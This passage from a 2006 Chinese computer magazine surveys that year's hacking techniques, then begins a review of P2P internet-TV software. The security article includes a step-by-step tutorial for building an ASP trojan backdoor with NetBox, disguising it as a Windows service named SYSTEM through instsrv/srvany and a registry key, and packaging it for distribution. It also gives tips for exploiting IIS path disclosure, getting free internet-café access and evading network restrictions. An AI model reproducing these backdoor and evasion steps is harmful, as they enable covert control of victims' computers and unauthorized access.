  这是指攻击者或内部人员违反安全策略对其访问权限之外的数据进行非法访问。

- （4）攫取密码文件
  这是攻击者进行口令破解获取特权用户或其他用户口令的必要前提，关键的密码文件如 Windows 9x 下的 PWL 文件、Windows NT/2000 下的 SAM 文件和 Unix 平台下的 /etc/passwd 和 /etc/shadow。

下面，我们以本年度比较热门的 Sniffer 为例进行讲解。Sniffer 是利用计算机的网络接口，截获目的地为其他计算机数据报文的一种工具。2006 年以来，网络监听技术出现了新的重要特征。传统的 Sniffer 技术是被动地监听网络通信、用户名和口令，而新的 Sniffer 技术则主动地控制通信数据。在网络攻击者看来，此类工具是其必备技能之一，并对其窃取数据起到了十分重要的作用。Sniffer 工作在网络环境中的底层，它会拦截所有正在网络上传送的数据，可以很轻松截获网上传送的用户姓名、口令、信用卡号码、截止日期、账号和 pin 码。软件下载地址为 http://www.ttian.net/download/list.php。

- 第一步：软件安装
  安装后，可以看到 Sniffer pro 的监控模式有：仪表板、主机列表、矩阵、请求相应时间、历史取样、协议分布、全局统计表等，这些模式能显示各项网络性能指标及详细的协议分析。在默认情况下，Sniffer 将捕获其接入碰撞域中流经的所有数据包。

- 第二步：定义过滤器
  Sniffer 提供了捕获数据包前的过滤规则的定义，在主界面选择“捕获”菜单下的“定义过滤器”选项，然后打开“地址”选项卡。其中包括 MAC 地址、IP 地址和 IPX 地址的定义。如图 3 所示。

- 第三步：设置
  选择“定义过滤器”选项的“高级”选项卡，定义希望捕获的相关协议的数据包。此外，还可以在“缓冲”选项卡里面定义捕获数据包的缓冲区，再将定义的过滤规则

CfanBoundEdition·2006


应用于捕获中。如果要停止 Sniffer 捕获包时，点选“捕获”菜单下的“停止”，把捕获的数据包进行解码和显示。

#### 2. 欺骗技术及其新发展

欺骗技术是攻击者通过冒充正常用户，以获取对攻击目标访问权，或获取关键信息，属于此类的有获取口令、恶意代码、网络欺骗等攻击手法。下面，我们归纳了2006年比较热门的一些欺骗技术。

- 第 1 种：获取口令的方式
  主要通过通过缺省口令、口令猜测和口令破解三种途径。某些软件和网络设备在初始化时，会设置缺省的用户名和密码，但也给攻击者提供了最容易利用的脆弱点。口令猜测则是历史最为悠久的攻击手段，由于用户普遍缺乏安全意识，不设密码或使用弱密码的情况随处可见，这也为攻击者进行口令猜测提供了可能。口令破解技术则提供了进行口令猜测的自动化工具，通常需要攻击者首先获取密码文件，然后遍历字典或高频密码列表从而找到正确的口令。著名的工具有John the Ripper、Crack和适用于Win32平台的LOphtcrack等。

- 第 2 种：恶意代码
  包括特洛伊木马应用程序、邮件病毒、网页病毒等，通常冒充成有用的软件工具、重要的信息等，诱导用户下载运行或利用邮件客户端和浏览器的自动运行机制，在启动后暗地里安装邪恶的或破坏性软件的程序，通常为攻击者给出能够完全控制该主机的远程连接。

- 第 3 种：网络欺骗
  是攻击者向攻击目标发送冒充其信任主机的网络数据包，达到获取访问权或执行命令的攻击方法。具体有IP欺骗、会话劫持、ARP（地址解析协议）重定向和RIP（路由信息协议）路由欺骗等。

  IP欺骗，是攻击者将其发送的网络数据包的源IP地址，篡改为攻击目标所信任的某台主机的IP地址，从而骗取攻击目标信任的攻击方法。通常应用于攻击Unix平台下，通过IP地址进行认证的一些远程服务，如rlogin、rsh等，也常应用于穿透防火墙。

  会话劫持，是攻击者冒充网络正常会话中的某一方，从而欺骗另一方执行其所要的操作。目前较知名的如TCP会话劫持，通过监听和猜测TCP会话双方的ACK，插入包含期待ACK的数据包，能够冒充会话一方达到在远程主机上执行命令的目的。支持TCP会话劫持的工具有最初的Juggernaut产品和著名的开源工具Hunt。

  ARP欺骗，这种方法提供将IP地址动态映射到MAC地址的机制，但ARP机制很容易被欺骗，攻击主机可以发送假冒的ARP回答给目标主机发起的ARP查询，从而使其错误地将网络数据包都发往攻击主机，导致拒绝服务或者中间人攻击。由于RIP没有身份认证机制，因此攻击者很容易发送冒充的数据包欺骗RIP路由器，使之将网络流量路由到指定的主机而不是真正希望的主机，达到攻击的目标。

2006年以来，通过欺骗的方式获得机密信息的事件越来越多，在国内比较严重的银行诈骗事件已经让不少用户开始感觉到网络中存在的安全隐患。

这里是国际反钓鱼组织公布的一个典型案例：攻击者发了一个欺骗的邮件并声称：按照年度计划，用户的数据库信息需要进行例行更新，并给出了一个“To update your account address”连接地址。由于这封Email来自SebastianMareygrossness@comcast-support.biz，因此，一般人不会太怀疑。不过，细心的用户会发现，表面地址是http://comcast-database.biz/，实际地址是http://66.113.136.225。很明显，这个攻击者利用了URL欺骗技术，以达到其不可告人的目的！

此外，还有不少流氓软件通过欺骗技术，未经许可强行潜伏到用户电脑中，而且此类程序无卸载程序，无法正常卸载和删除，强行删除后还会自动生成。有迹象表明，病毒、黑客和流氓软件正紧密结合，日益趋于商业化、集团化，并且已经形成了一根完整的产业链条。

#### 3. 拒绝服务攻击技术及其新发展

拒绝服务攻击，是中断或者完全拒绝对合法用户、网络、系统和其他资源的服务，被认为是最邪恶的攻击，其意图就是彻底地破坏，而这往往比真正取得他们的访问权要容易得多，同时所需的工具在网络上也唾手可得。因此拒绝服务攻击，特别是分布式拒绝服务攻击对目前的互联网构成了严重的威胁，造成的经济损失也极为庞大。拒绝服务攻击的类型按其攻击形式划分包括导致异常型、资源耗尽型、分布式拒绝服务攻击（DDoS）等。

- 第 1 种：导致异常型拒绝服务攻击
  这种方法利用软硬件实现上的编程缺陷，导致其出现异常，从而使其拒绝服务。如著名的Ping of Death攻击和利用IP协议栈对IP分片重叠处理异常的Treadrop攻击等。

- 第 2 种：资源耗尽型拒绝服务攻击
  这种方法通过大量消耗资源使得攻击目标由于资源耗尽不能提供正常的服务。根据资源类型的不同可分为带宽耗尽和系统资源耗尽两类。带宽耗尽攻击的本质是攻击者通过放大等技巧消耗掉目标网络的所有可用带宽。系统资源耗尽攻击指对系统内存、CPU或程序中的其他资源进行消耗，使其无法满足正常提供服务的需求。著名的Syn Flood攻击即是通过向目标服务发送大量的数据包，造成服务的连接队列耗尽，无法再为其他正常的连接请求提供服务。

- 第 3 种：分布式拒绝服务攻击
  这种方法通过控制多台傀儡主机，利用他们的带宽资源源集中向攻击目标发动总攻，从而耗尽其带宽或系统资源的攻击形式。DDoS攻击的第一步是瞄准并获得尽可能多的傀儡主机的系统管理员访问权，然后上传DDoS攻击并运行。目前著名的DDoS工具有TFN（Tribe FloodNetwork）、TFN2K、Trinoo、WinTrinoo和Stacheldraht等。

从2006年网络攻击技术的发展情况来看，最近发生的拒绝服务攻击事件大多与联机游戏有关。某些玩家对游戏中被人杀死或丢失他们喜爱的武器不满意，因此发动拒绝服务攻击，许多服务器已经成为这种攻击的牺牲品。另外，使用拒绝服务进行网络敲诈勒索的事件仍然十分频繁，攻击者通过在短暂而非紧要的时间段内发动攻击，对用户的数据构成威胁，受害者则不得不为此而支付“保护费”。

#### 4. 数据驱动攻击技术及其新发展

数据驱动攻击是通过向某个程序发送数据，以产生非预期结果的攻击，通常为攻击者给出访问目标系统的权限，数据驱动攻击分为缓冲区溢出攻击、格式化字符串攻击、输入验证攻击、同步漏洞攻击、信任漏洞攻击等。

- 第 1 种：缓冲区溢出攻击
缓冲区溢出攻击的原理是向程序缓冲区写入超出其边界的内容，造成缓冲区的溢出，使得程序转而执行攻击者指定的代码，通常是为攻击者打开远程连接的ShellCode，以达到攻击目标。近年来著名的蠕虫如Code-Red、SQL Slammer、Blaster和Sasser等，都是通过缓冲区溢出攻击获得系统权限后进行传播。

- 第 2 种：同步漏洞攻击
这种方法主要是利用程序在处理同步操作时的缺陷，如竞争状态、信号处理等问题，以获取更高权限的访问。发掘信任漏洞攻击则利用程序滥设的信任关系获取访问权的一种方法，著名的有Win32平台下互为映像的本地和域Administrator凭证、LSA密码（Local SecurityAuthority）和Unix平台下SUID权限的滥用和X Window系统的xhost认证机制等。

- 第 3 种：格式化字符串攻击
这种方法主要是利用由于格式化函数的微妙程序设计错误造成的安全漏洞，通过传递精心编制的含有格式化指令的文本字符串，以使目标程序执行任意命令。

- 第 4 种：输入验证攻击
输入验证攻击针对程序未能对输入进行有效的验证的安全漏洞，使得攻击者能够让程序执行指定的命令。

下面是一个很有代表性的例子。打开某些网页时，可以把网址中的“/”换成“%5c”然后提交，这样就可以显示出数据库的路径。成功后，会有类似的提示：“确定路径名称拼写是否正确，以及是否连接到文件存放的服务器。”如图4所示。

“%5c”并不是网页本身的漏洞，而是利用了IIS解码方式的一个缺陷。实际上是“\”的十六进制代码，是“\”的另一种表示法。但是，提交“\”和“%5c”却会产生不同的结果。在IE中，我们把第一个地址中的“/”换成“\”提交，二者的访问结果是一样的。IE会自动把“\”转变成“/”，从而访问到同一地址。但是，当我们把“/”换成十六进制写法“%5c”时，IE就不会对此进行转换，地址中的“%5c”被原样提交了。


2006年以来，针对网站、论坛等程序的攻击依然是一大热点，一些大学网站、论坛甚至一些知名企业的站点都遭遇了不同程度的攻击。比较热门的事件有：OBlog2.52文件删除漏洞、COCOON在线文件管理器上传漏洞、PJBlog v2.2用户提权再提权、BBSXP 6.0 SQL版的版主提权漏洞、雪人“SF v2.5 for Access”版论坛漏洞等，这些攻击手法都综合了多种技巧，尤其是数据驱动攻击技术的运用。

#### 5. 隐藏技术及其新发展

攻击者在完成其攻击目标后，通常会采取隐藏技术来消除攻击留下的蛛丝马迹，避免被系统管理员发现，同时还会尽量保留隐蔽的通道，使其以后还能轻易地重新进入目标系统。隐藏技术主要包括日志清理、内核套件、安装后门等。

- 第 1 种：日志清理
日志清理主要对系统日志中攻击者留下的访问记录进行清除，从而有效地抹除自己的踪迹。Unix平台下较常用的日志清理工具包括zap、wzap、wted和remove。攻击者通常在获得特权用户访问权后会安装一些后门工具，以便轻易地重新进入或远程控制该主机，著名的后门工具包括BO、netbus和称为“瑞士军刀”的netcat等；攻击者还可对系统程序进行特洛伊木马化，使其隐藏攻击者留下的程序、服务等。

- 第 2 种：内核套件
内核套件则直接控制操作系统内核，提供给攻击者一个完整隐藏自身的工具包，著名的有knark for Linux、Linux Root Kit及rootkit。

- 第 3 种：安装木马后门
木马的危害性在于它对电脑系统强大的控制和破坏能力，窃取密码、控制系统操作、进行文件操作等，一般的木马都有客户端和服务器端两个执行程序，其中客户端是用于攻击者远程控制植入木马的机器，服务器端程序即是木马程序。木马在被植入攻击主机后，它一般会通过一定的方式把入侵主机的信息，如主机的IP地址、木马植入的端口等发送给攻击者，这样攻击者有这些信息才能够与木马里应外合控制攻击主机。本文将通过网络盒子NetBox做一个木马，它可以方便地将ASP等脚本编译成为独立运行的执行程序，完全不用考虑平台兼容性要求。步骤如下。

##### 第一步：创建一个 NetBox 应用

创建一个空的目录，假设是 c:\web；同时，在目录中创建一个文件，命名为 main.box，其部分内容为：

```
Dim httpd
'---------------------- 设置在服务中运行的名称，可适当修改进行隐藏 ----------------------
Shell.Service.RunService "NBWeb", "NetBox Web Server", "NetBox Http Server Sample"
'----------------------------- 设置服务器启动 -----------------------------
Sub OnServiceStart()
Set httpd = CreateObject("NetBox.HttpServer")
'----------- 以下设置浏览端口，可修改为其他参数，或更改 wwwroot 目录 -----
If httpd.Create("", 8080) = 0 Then
Set host = httpd.AddHost("", "\wwwroot")
host.EnableScript = true
host.AddDefault "default.asp"
......
```

##### 第二步：设置木马运行环境

在 c:\web 目录中再创建一个子目录 wwwroot，并将我们所需要的 ASP 木马文件全部复制到 wwwroot 中，这里选用的是海阳顶端 ASP 木马。此时，ASP 运行环境应该已经准备好了。为了运行新建的 NetBox，必须确认 8080 端口没有被其他程序占用。双击 main.box 文件，就可以在窗口右下角看见 NetBox 的图标。此时，NetBox 已经正常运行了。现在，访问 http://localhost:8080/ 测试 ASP 木马是否能正常运行。这种木马的好处是，不用担心有日志记录。但是现在它还远不是一个后门，只是提供了与 IIS 相当的功能。

##### 第三步：编译

执行 “NetBox Deployment Wizard”，点击 “选择文件夹”，找到刚才建立的目录 C:\web，设置文件类型和输出文件名后，点 “Build...(编译)” 按钮，开始编译，就得到了编译成功的那个执行文件。因为这个例程是以服务方式创建 Web 服务器，所以可以在命令行下执行 myapp --install，将应用安装成为服务，这样，系统无须登录便可以自动运行应用了。如果需要卸载服务，则可以在命令行下执行命令 “myapp --remove”。myapp 代表输出的应用文件名，如本例中的 test.exe，如图 5 所示。


##### 第四步：隐藏服务

要达到 “神不知鬼不觉” 的效果，首先需要把应用程序添加为服务，我们可以使用 Windows 提供的 Instsrv.exe 和 Srvany.exe 这两个小软件。在命令行下，先把 Instsrv.exe 和 Srvany.exe 注册为服务。格式为 INSTSRV，服务名为 SRVANY 的路径，如 “INSTSRV SYSTEM C:\WEB\SRVANY.EXE”。其中 SYSTEM 是为了便于隐藏服务名。

##### 第五步：添加注册表键值

注册成功后，打开注册表如下键值：[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SYSTEM]。SYSTEM 是刚才我们注册的服务名，在 SYSTEM 下面先建立一个项 PARAMETERS，然后在这个项上建立一个键值 APPLICATION，填上我们要执行的文件路径如 C:\web\test.exe，就可以了。

##### 第六步：启动服务

方法有两种，第一种是在图形界面，直接进入 “管理工具” 下的 “服务” 面板；另一种是在命令行下，启动命令为 “NET START SYSTEM”，停止命令为 “NET STOP SYSTEM”。如果要将这个服务删除，可以用命令 “SC DELETE SYSTEM”。

##### 第七步：制作并发布木马

结合批处理和脚本把这个做成自解压文件，或者其他的上传方式，比如通过后台数据库备份上传后再修改密码。

值得注意的是，2006 年木马技术发展迅猛，除了一些老牌木马，其他有特色的木马也让人头疼不已，例如管理型木马——ncph 远程控制；国产木马新秀 PCView 2006；五毒俱全的蜜蜂大盗；木马 Eraser Lite；另类的远程控制工具 JXWebSver 等。这些木马隐藏技术的不断提高，也给用户带来了许多麻烦。

通过上面的详细分类，就可以对本年度的攻击技术情况有了一个十分直观的认识。下面，我们通过典型的案例进行点评。

### 四、热门攻击实例点评

目前，网络攻击的主要对象是 Web 网站系统、操作系统和即时通信软件，尤其是 Web 网站系统攻击，依然是 2006 年讨论最多的话题。在攻击过程中，复杂的攻击工具往往融合了多种不同的攻击技术，而且，目前的病毒也逐渐融入了一些网络攻击的技术，如著名的 Nimda 病毒通过电子邮件、共享目录以及主动攻击 IIS 缓冲区溢出漏洞等形式达到广泛传播的效果。下面，我们从以下几个方面进行实例讲解。

#### 1. 脚本攻击：对论坛或其他网站的攻击

脚本是由一系列的脚本命令所组成的，如同一般的程序，脚本可以将赋值给某个变量，发送到浏览器，还可以将一系列命令定义成一个过程。一些恶意网页也会利用软件或系统操作平台等的安全漏洞，通过执行脚本语言程序可自动执行的代码程序，强行修改用户操作系统的注册表及系统实用配置程序，从而达到非法控制系统资源、破坏数据、格式化硬盘、感染木马程序的目的。

综观2006年的热门攻击事件，通过脚本攻击论坛或其他网站的事件几乎占了半壁江山。下面是一些大型网络安全论坛上比较热门的攻击方法：

- 利用上传组件漏洞攻破主站；利用在线文件管理器漏洞获得WebShell；
- 利用第三方插件入侵动网论坛；
- 利用COCOON在线文件管理器上传漏洞攻击网站；
- 在PJBlog v2.2中利用用户再提权；
- 利用Cookies欺骗进入动网后台；
- 利用CGI论坛漏洞攻击日本网站，方法是利用CGI程序代码过滤不严造成可以在IE构造一些命令来执行的漏洞；
- 利用“动感购物系统v9.29”的上传漏洞攻击“动感商务”网站；通过注入到JavaScript脚本里面，返回给浏览器用<script src=fuck.js>这样的形式，攻击网站系统；
- 文本框内的注入。一些网站多数是过滤了ID这样的参数值，却往往忽略了文本框这样的注入点，因此可以利用文本框的缺陷进行攻击。

此外，我们还注意到，攻击涉及的对象很多，如Discuz4.1、DVBBS7.1、L-Blog、BBSXP、夜猫留言簿等，通常的现象是一旦某个程序出现问题，总能倒下一大片。造成这种局面的原因是多方面的，关键的还在于许多管理员安全意识很低，他们总以为拿来一些比较成熟的ASP、PHP等代码系统就万事大吉而无后顾之忧了。实际上，这些代码都是公开的，一旦有漏洞出来而未更新代码时，就很容易造成网站被攻击的事件发生了。

在众多的Web攻击中，注入式攻击和跨站攻击日益盛行。注入式攻击主要是利用SQL特殊字符过滤的不严密，而对数据库进行跨表查询的攻击；跨站脚本是在远程Web页面的Html代码中插入具有恶意目的的数据，用户认为该页面是可信赖的，但是当浏览器下载该页面，嵌入其中的脚本将被解释执行，比如一段格式化硬盘的代码。

对该代码的详细分析，当用户浏览该网页后，automat.hta文件就会悄悄地写入到电脑的C:\Windows\Start Menu\Programs\启动文件夹下，并提示“Windows is configuring the system. Please do not interrupt this process”，而实际上却在暗中格式化D盘！代码中的“/autotest”这个微软未公开的参数使得格式化硬盘时不会出现提示！另两个参数“/q”和“/u”，使得系统不检测硬盘便快速、完全的格式化硬盘。最后start.exe再配合“/m”参数就可以使格式化时的DOS-prompt窗口在执行的时候处于最小化的状态。

代码中的“F935DC22-1CF0-11D0-ADB9-00C04FD58A0B”对应为“Windows Scripting Host Shell Object”，我们可以在注册表编辑器中查到它的身影；代码中的“WSH”的全称是Windows Scripting Host，是微软提供的一种基于32位Windows平台的、与语言无关的脚本解释机制，它使得脚本能够直接在Windows桌面或命令提示符下运行。WSH所对应的程序WScript.exe是一个脚本语言解释器，位于Windows所在文件夹下，正是它使得脚本可以被执行，像执行批处理一样。

#### 2. 对服务器、网吧及相关软件的攻击

现实生活中，网络应用越来越复杂，利用浏览器、网站插件、代码等方面的漏洞进行攻击的事件也愈演愈烈，甚至被有心人士用来窃取顾客的私人信息。一般来说，漏洞的威胁类型基本上决定了它的严重性，很多公司在公布安全漏洞的危险等级时候，把严重性分成高、中、低三个级别，再提示用户根据具体的情况，要采取程度不同的防范措施。在网络攻击者的眼里，“肉鸡”意味着可以轻松占有一台或多台服务器；至于网吧，针对服务器和网吧管理软件的攻击也十分频繁，醉翁之意不在酒，当然是想免费上网了。

通过总结各大安全论坛和技术站点，以下网吧攻击方法比较热门。具体为：通过网吧防火墙下载软件；绕过还原卡的自启动，实现Pubwin4的破解；从万象VOD视频点播到FTP密码；通过精锐网吧辅助工具V5.5实现免费上网；利用注册表删除万象网管密码实现免费上网；利用网上邻居删除IPX/SPX/NETBIOS协议实现免费上网。

另外，针对QQ号和QQ站点的攻击也比较频繁。例如：强取豪夺QQ空间资源；绕过安全中心给QQ传木马；通过网络钓鱼盗取QQ号；免费获取QQ秀；免费成为QQ会员等。

针对网络服务器的攻击，也出现了许多独特的思路和新方法。如利用SA用户权限的安全隐患快速入侵网站；利用wmf远程执行漏洞（MS06-001）攻击服务器；利用Metasploit Framework体验MS06-040漏洞；利用Ability FTP Server新漏洞入侵网站；利用Windows图形渲染引擎WMF格式代码执行漏洞；利用文件后缀解析的漏洞攻击Apache服务器；百度、TOM、21CN系列搜索引擎漏洞等。

现在，网络管理员加强了内网的安全管理。比较常见的情况是网管通常都会封杀比较常见的服务端口，导致用户不能访问某些网站，不能使用QQ等工具进行聊天、玩游戏等。另外，出于安全考虑，有些网络管理员会限制某些协议，如不能使用FTP、对下载进行限制等。一般情况下，网络攻击者可以使用普通的HTTP代理或者SOCKS代理。现在，提供socks服务的代理软件有很多，如“通通通”软件（http://www.tongtongtong.com）、Socksonline（http://www.waysonline.com/mader/download）等。软件连通后，界面如图6所示。


Socksonline正常启动后，该程序就变成了本地的Socks Proxy，用户就可以通过Http Proxy或其他Proxy访问Internet。如果要突破内网登录QQ，可以打开QQ中的设置窗口输入参数。以QQ2006为例，在“代理设置”界面中，选择“使用SOCKS5代理服务器”。然后在代理服务器地址栏填入“localhost”，在端口栏填入“1080”或自己设置的服务端口，默认不需要用户名和密码验证。可以单击“测试”按钮，看是否连接网络。

同样，如果要突破内网，实现自由上网，也可以使用类似方法在IE浏览器中设置SOCKS5代理服务器。如果身处学校机房或管理比较严格的单位网络，还可以通过Socksonline和e-Border软件的配合，突破内网的限制就很容易了。

e-Border安装完成后，会弹出一个设置客户端程序的窗口，根据向导设置代理服务器名和默认的端口1080。在e-Border的代理方式中，选择Proxy only方式，表示将所有的网络连接全部截获并通过Socks代理连接。然后按下“Include list（包含列表）”按钮，在弹出的对话框中按下Add（添加）按钮，把Socksonline软件加入到列表框中。用同样的方法把平时上网需要使用Socks协议的软件都加入列表。


无论在内网还是外网，攻击者都可以横行了，这也是目前很多网络管理员比较头疼的一个地方。在山东临沂银雀山出土的《孙膑兵法》上，有这样一段对话。齐威王曰：“地平卒齐，合而败北者，何也？”，翻译为：地形很好，士兵也很齐心，为什么打了败仗？孙膑的回答是：“阵无锋也。”意即：“因为没有找到突破口。”这个典故说明了两军对垒，能否突破一点，向纵深进兵，往往是能否夺取全局性胜利的重要关键。

总之，在网络安全实践中，我们也必须随时掌握最新的攻击技术发展动态，寻找防守的突破口，这样才能达到有效防范的目的。

## 2006年网络电视软件

文/风之扬

2006年，伴随着一系列火热的赛事和节目，网络电视开始成为一道特别的风景线。世界杯、黄金联赛、世青赛、欧洲足球五大联赛的陆续上演，“超级女声”连绵数月的直播，都使网络电视软件的观看人数创下前所未有的纪录；2006年7月德国世界杯的上演更是让网络电视创造了一个全新的里程碑。IDC发布的《中国IPTV市场2006-2010预测与分析》报告称，网络电视有望在2010年拥有超过2000万的中国用户。在这种良好的产业环境下，网络电视软件开始不断涌现，可谓“百舸争流，各显身手”。本文将对2006年网络电视技术的发展进行评述，综合对比在本年度发展比较迅速的网络电视软件，并根据技术发展情况进行详细的功能评测。

### 一、2006年网络电视技术分析和流行软件

作为一种应用，网络电视最初主要在校园内流行，因为校园的学生群体几乎都处于同样的境地：在学校宿舍基本上没有看电视的机会，但是几乎每个人都能很方便地操作计算机。在人们的生活习惯从“后仰15度”（看电视）向“前倾15度”（用电脑）的方式转变的时候，网络电视逐步发展起来。

#### 1. 2006网络电视关键技术分析

随着宽带网络、“P2P”技术、流媒体、编解码、信息加密和存储技术的发展，基于TCP/IP协议网络为承载基础的网络电视业务在2006年开始进入商业运营阶段。下面，是一些关键的技术介绍。

##### (1) 宽带网络技术

网络电视系统所使用的是以TCP/IP协议为主的网络，包括骨干/城域网络、宽带接入网络和内容分发网络等。其中，骨干/城域网络主要完成视频流在城市范围和城市之间的传送，目前城域网络主要采用千兆/万兆以太网络，而长距离的骨干网络则较多选用SDH或DWDM作为IP业务的承载网络；宽带接入网络主要完成用户到城域网络的连接，目前常见的宽带接入网络包括xDSL、LAN、WLAN和双向HFC等，可以为用户提供数百Kbps至100Mbps的带宽；内容分发网络是一个叠加在骨干/城域网络之上的应用系统，其主要作用是将位于前端的视频内容分布到网络的终端位置，以改善用户获得服务的质量，减少视频流对骨干/城域网络的带宽压力。

##### (2) “P2P”技术（即“点对点”，Peer to Peer）

该技术是将现实世界中人们每天面对面或通过电话的交流和沟通模式移到互联网上。P2P改变互联网以大网站为中心的状态，重返“非中心化”，把权利交还给用户。而采用P2P技术的网络电视软件，也可以达到同样的效果：同时在线观看的用户越多，速度就越快，这样不仅可以提供更清晰的电视效果，还可以提高网络带宽的利用率，在享受高清电视效果的同时，也不会经常出现缓冲或者连接中断的情况。

接时间过长的问题。

##### （3）流媒体技术

目前，网络直播大多采用流媒体技术，可以在低宽带环境下提供高质量的音、视频，特别是流媒体技术中的智能流技术，可以根据网络带宽的动态变化自动调整流量，避免在播放过程中的信息流中断。它采用高效的视频压缩技术，使视频流传输带宽在800Kbps时可以有接近DVD的收视效果，对开展视频类业务如因特网视频直播、远距离视频点播、节目制作等都有很强的优势。

##### （4）视频编解码技术

开展网络电视业务需要以高速骨干／城域网络和宽带接入网络为基础，尽管目前的宽带接入网络可以达到256kbps以上的传输速率，但是相对于数字视频信号来说仍然远远不足。以数字分量4:2:2电视信号为例，如果不采取任何压缩措施，其原始码流高达216Mbps。因此视频信号的编码压缩是实现网络电视业务的关键技术。由于网络和接收端设备存在诸如带宽变化、处理能力等方面的不同，因此应用于视频流的编解码方法必须满足以下需求：带宽、延迟、丢包、交互功能、解码复杂性等。

##### （5）数字版权技术

数字版权是指数字化内容（包括音频、视频和文字等）的版权和相关权利，数字版权管理技术主要用途是确定数字版权和相关的使用规则，并保证这些规则得到遵守。数字版权管理技术的标准化工作还处于发展期，有许多组织针对音乐、文字和视频等不同的内容制订了各种规范。

##### （6）存储技术

经过编码压缩后的数字视频文件一般需要占用大量的存储空间，通常一部长为90分钟的电影如果按DVD质量要求进行数字化后，需要2.7GB的存储空间！通常无论是开展数字电视还是网络电视业务，系统的前端部分都需要考虑海量存储空间（一般在10TB以上）的实现和管理。存储系统大体上包括存储设备、存储网络和管理软件等部分，它们分别担负着数据存储、存储容量和性能扩充以及数据管理等任务。

在上述关键技术发展逐渐成熟起来后，网络电视软件也开始进入我们的生活。2006年，成为了网络电视软件发展的一个转折点。

#### 2. 2006年热门网络电视软件扫描

几番沉浮，2006年以来，网络电视软件发生了巨大的变化。初步统计，在国内各大下载站点能够搜索到的网络电视软件大约在200~300个左右，这些软件大部分都以P2P技术为基础，而且各有特色。下面，我们对本年度比较有代表性的网络电视软件进行大致介绍。

- 第 1 款：PPLive V1.3.20
软件下载地址：http://www.pplive.com。这是华中科技大学开发的一款P2P网络电视软件，软件使用了网状模型，有效解决了当前视频点播服务的带宽和负载有限问题，实现了用户越多、播放越流畅的特性，整体服务质量大大提高。同时，软件可以将最近收看的节目自动加入收藏的“最近观看”类别中。

- 第 2 款：沸点网络电视
软件下载地址：http://tv.net9.org。这是国内起步较早的P2P网络电视软件，创作者来自清华大学。在网站上，沸点承诺永远对用户免费。而且，采用了“搜狗PXP流媒体加速引擎”技术的沸点网络电视链接较快，播放十分流畅。

- 第 3 款：PPStream
软件下载地址：http://ppstream.com。PPStream可以直接在网页上观看网络电视，能够为宽带用户提供稳定和流畅的视频直播节目，具有用户越多播放越稳定，支持数万人同时在线的大规模访问等特点。

- 第 4 款：QQLive V3.2
软件下载地址：http://tv.qq.com/download.htm。这是由腾讯公司推出QQ直播软件，其多媒体互动直播平台支持同场观看、同场交流。新版QQ直播不仅在画面质量和直播技术上有了进一步的加强，还增加了包括支持代理在内的一些新功能，这款软件无论是在研发资金还是在人气上都有着巨大的优势。

- 第 5 款：TVKoo 060628A
软件下载地址：http://www.tvkoo.com。这款软件目前的口碑很不错，内置的频道及电影都是经过精心挑选的，体积仅300KB，无须安装，直接运行，不修改注册表；运行时不读写硬盘，而且延时小，可以全自动穿透内网。软件的电视节目连接速度、画面质量和播放的流畅程度也都有不错的表现。

- 第 6 款：TvAnts 电视蚂蚁 1.0.0.58
软件下载地址：http://www.tvants.com。TvAnts也是一种P2P技术的网络电视软件，一个播放节点可以同时和数个播放节点交换数据，使得带宽的占用达到最大化，获得最佳的播放效果。它的界面和其他同类软件不同，有点像资源管理器。TvAnts提供了多达百个频道，并提供了一个与收看同一频道的网友交流平台。

- 第 7 款：MySee
软件下载地址：http://www.mysee.com。软件由北京高维视讯科技有限公司开发，该公司曾联合各大门户网站、电信运营商进行了多次大型活动的网络直播。插件大小不足100KB，无须安装独立客户端，完全基于浏览器控件方式。

除了上述软件，还有开山网络电视王V2.1.4（http://www.axesoft.com）、starTV卫星网络电视V5.9.65（http://www.ibmway.com/startv）、流星网络电视（MeteorNetTv）V2.19.4（http://www.jesen.cn）、FreeTV免费网络电视V5.3（http://www.aojinsoft.com）、视通卫星网络电视V2006（http://www.52sttv.com）、SeeTV网络电视（http://www.gysoftv.cn）等，这些采用了P2P技术的软件各具特色，为2006年网络电视产业的发展注入了新的活力。

### 二、网络电视软件功能评测

面对种类繁多的P2P网络电视软件，用户该如何进行正确选择呢？下面，我们从软件界面、播放速度和画面流畅程度、频道内容、后期更新维护等方面进行综合评比。

#### 1. 软件界面对比

(1) 豪华气派的沸点网络电视

德国世界杯后，沸点网络电视的界面发生了较大变化，软件采用了深蓝色的模式，连接完成以后即可开始运行Windows Media Player播放，尤其在教育网内有不错的表现。界面左边是节目列表，分类比较清晰，包括“直播频道”、“经典电影”、“娱乐综艺”、“游戏动漫”，而且还提供了播放质量参考；中间是播放窗口，可以根据用户的喜好进行调节；右边提供了相关频道的节目预告，可以了解当天任何时段的详细节目信息。如图1所示。


(2) 朴素大方的PPLive

PPLive界面采用了淡蓝色的风格，相对比较朴素，简约而不失大方。频道按钮放在界面的正上方，分为“播放”、“推荐”、“文件”、“控制”等栏目。软件右边是频道列表和收藏界面，频道列表中包括了多达百余个频道。将鼠标放在某一个节目上，就会出现和该节目有关的信息，如画面、码率、质量、热度等。

(3) 纯净质感的QQ直播

软件播放界面很有质感，采用了QQ一贯沿用的淡蓝色。软件运行后，可以看到在左侧的频道列表上，分别有QQ TV和QQ RADIO两项可供用户选择，前者是电视频道列表，后者为广播频道列表，内容显得十分丰富。其电视播放窗口内置于主界面中央，而右侧是QQ直播的预告，用户可随时掌握节目信息。如图2所示。


(4) 黑色深沉的PPStream

PPStream采用的也是内置Windows Media Player模块设计，由于Windows XP SP2禁止应用程序打开10个以上TCP连接，这会导致PPStream速度慢和不流畅。为了提高播放速度，软件首先提供了Windows XP SP2多线程补丁。软件运行后可以看到黑色的界面，左边是频道列表，可以显示出频道名称；中间是播放窗口，右边则提供了“资讯导航”，可以了解最新的热播信息。软件还提供了“定时”播放功能，可以在某一个时刻停止播放或者通过音乐进行提示，服务十分体贴周到。

(5) 简洁紧凑的TVkOO

这款软件的界面被分为两块，左侧是节目播放区，右侧是节目表，整个软件界面有一点“宽银幕”的味道。

(6) 通过网页观看的MySee

通过安装插件后，即可实现在线观看。软件播放窗口在http://www.mysee.com中，选择喜欢的节目后即可通过网络进行观赏。

从界面对比来看，沸点网络和QQ直播表现比较突出，其他软件都选择了比较有个性的颜色。同时，软件界面中提供的导航信息也十分重要，例如沸点网络最新推出的节目预告，就在很大程度上方便了用户收看节目。

#### 2. 连接速度、画面流畅程度和实时性对比

连接速度、画面流畅程度和实时性是很多用户的首选指标。下面，我们选择使用用户比较多的教育网作为测试环境，测试时间为晚上0点～3点，同时参考8点～11点。

